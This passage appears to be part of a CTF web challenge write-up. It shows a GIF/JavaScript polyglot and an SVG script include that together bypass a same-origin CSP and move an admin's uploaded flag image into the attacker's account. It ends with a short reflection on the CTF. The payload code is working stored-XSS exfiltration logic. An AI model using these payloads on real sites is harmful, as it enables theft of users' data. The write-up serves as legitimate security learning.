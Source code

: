 So, let's start:

First, upload a gif with:(there are some magic header of `GIF`)
![](https://i.imgur.com/n1riTFy.png)

```
GIF89a/* # some GIF magic information, but cannot be shown here
fetch('/').then((r)=>r.text()).then((r)=>r.match('[a-z0-9\-]{36}')[0]).then((r)=>fetch('/image/'+r+'/download').then((r)=>r.blob()).then(function(r){
    fetch('/login', {
        method: 'POST',
        hearders: {
            'Content-Type': 'application/x-ww-form-urlencoded'
        },
        body: new URLSearchParams({
            'username': 'asdasd',
            'password': 'asdasd',
        })
    }).then(function(_){
        let formData = new FormData();
        formData.append('title', 'admin');
        formData.append('file',new Blob([r], {type: 'image/jpeg'}), 'flag.jpg');
        fetch('/upload', {
            method: 'POST',
            body: formData
        })
    })
}));
```

And upload a svg with(replace `{PREV_GIF_UUID}` with first `GIF`'s uuid):

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
    <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400" />
    <script href="/image/{PREV_GIF_UUID}/download"></script>
</svg>
```

to bypass CSP which is `default-src 'self'`, because we include script from self :)

And send this svg's view link to admin, then we can get image that admin uploaded to our account by heself!

## Summary

This time is my first time to participated a ctf seriously XD. But I need to work so I only participated 2 days(of 3 days), but at least I studied almost all web questions. Although it's really tired but I actually learned a lot from those questions. Like MSSQL injection, MongoDB regex, Redis RCE(although not success, but I knew there is a way now XD) It also makes me super excited about AIS3😍!

## References

-   <https://portswigger.net/web-security/sql-injection/cheat-sheet>
-   <https://portswigger.net/web-security/cross-site-scripting/cheat-sheet>
